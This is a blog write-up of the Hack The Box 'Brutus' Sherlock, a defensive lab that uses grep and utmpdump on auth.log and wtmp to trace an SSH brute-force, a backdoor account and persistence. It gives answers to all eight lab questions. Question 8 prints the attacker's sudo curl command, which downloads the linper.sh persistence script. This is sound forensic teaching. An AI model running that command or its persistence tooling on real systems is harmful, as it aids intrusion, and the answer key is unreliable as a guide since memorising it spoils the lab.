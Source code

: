 ```yaml
---
title: "Hackthebox Brutus Sherlock"
date: 2025-02-05
media_subpath: /assets/posts/2025-02-05-hackthebox-brutus-sherlock
published: true
layout: post
categories:
- ctf
- blue team
tags:
- linux
---
```


To begin the sherlock we are given the following scenario:  

"In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution."

We are also given two different kinds of linux log files, `auth.log` and `wtmp`. A quick google search or ChatGPT reveals which kind of information these log files give us:  

**auth.log**  
- Stores authentication logs for both successful or failed logins, and authentication processes 
- Text file.  


**wtmp**  
- Keeps track of historical data of every log-in and logout activity in the form of a binary, the historic data of the `utmp` file which stores logs about the current session.  
- Since it's in the form of a binary file, need to use tools like `utmpdump` or `last` to view it.

### Question 1

**Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**

During a brute force attack there will almost definetly be a large number of failed attempts and scrolling through `auth.log`, when these failed attempts occur an event containing "Failed password" is logged. We can grep for "Failed password" to get the answer.  

`grep "Failed password" auth.log`  

From this we get the following output  

![brutus_q1_output_1.png](brutus_q1_output_1.png)  

Revealing the answer to be `65.2.161.68`  

### Question 2

**The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**  

To find out what is logged after a successful login attempt we can try grep again for "password". This shows that "Accepted password" is logged on successful authentication attemps.  

Now using the following command to find successful login attempts:  

`grep "Accepted password"`  

This gives the following output:

![brutus_q2_output_1.png](brutus_q2_output_1.png)  

We know the malicious ip, which gives us the answer "root"

### Question 3

**Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**  

We know the attacker gained first gained access on `Mar  6 06:31:40` from the previous questions, now its important to know the difference between `wtmp` and `auth.log` log files. Both store logs related to authentication but `wtmp` will store timestamps of when sessions were created. This is important because we want to find when the attacker manually logged in. Looking at the accepted passwords logs from `auth.log` reveals the first two accepted passwords for root were at `Mar  6 06:31:40` and `Mar  6 06:32:44` but when analysing the `wtmp` file using the following command:

`utmpdump wtmp`  

We get the output:  

![brutus_q3_output_1.png](brutus_q3_output_1.png)  

Which tells us the first session was established at `2024-03-06T06:32:45`. Why was there a session established for the successful authentication attempt at `Mar  6 06:32:44` but not at `Mar  6 06:31:40`? Because the first successful authentication attempt was during the brute-force attack so it didn't bother establishing a session. Therefore our answer is `2024-03-06 06:32:45`  

### Question 4

**SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**  

the `wtmp` file stores details about the session but not the ID which we know by looking at the output from `utmpdump`. So the answer must be in `auth.log`. We can look at the logs surrounding the successful authentication attempt from Question 2 using sed:  

`sed -n "320,330p" auth.log`  

Which shows us:  

![brutus_q4_output_1.png](brutus_q4_output_1.png)  

Giving us the answer 37  

### Question 5

**The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**  

Again we know the details of `wtmp` won't contain our answer here so we must look in `auth.log`. We know if a user was created on the linux machines commands like `useradd` or `adduser` would likely have been used. We can grep for these commands:  

`grep "useradd" auth.log`  

Which shows  

![brutus_q5_output_1.png](brutus_q5_output_1.png)  

Giving us the answer "cyberjunkie"

### Question 6  

**What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**  

This answer can be found by a google search like "MITRE ID persistence by creating new account" and from the MITRE ATT&CK page for `T1136` we get the sub technique for creating a new local account, `T1136.001`.  

### Question 7  

**What time did the attacker's first SSH session end according to auth.log?**  

The question already tells us were looking in auth.log, we know the session id is 37, we can grep for this:  

`grep "session 37" auth.log`  

Which gives us:  

![brutus_q7_output_1.png](brutus_q7_output_1.png)  

So the answer is `2024-03-06 06:37:24`  

### Question 8  

**The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**  

the `sudo` command which the attacker used is a command which requires authentication. Again from looking at the `utmpdump wtmp` output from question 3 it doesn't look like our answer is here so were looking at `auth.log` for the answer. We know the command executed contained `sudo` so grepping for `sudo`:  

`grep "sudo" auth.log`  

We get:  

![brutus_q8_output_1.png](brutus_q8_output_1.png)  

Giving us the answer `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`  

### Review / Skills learned  

This lab was very easy and straightforward, all the knowledge that was required was basic linux skills with a little bit of problem solving.




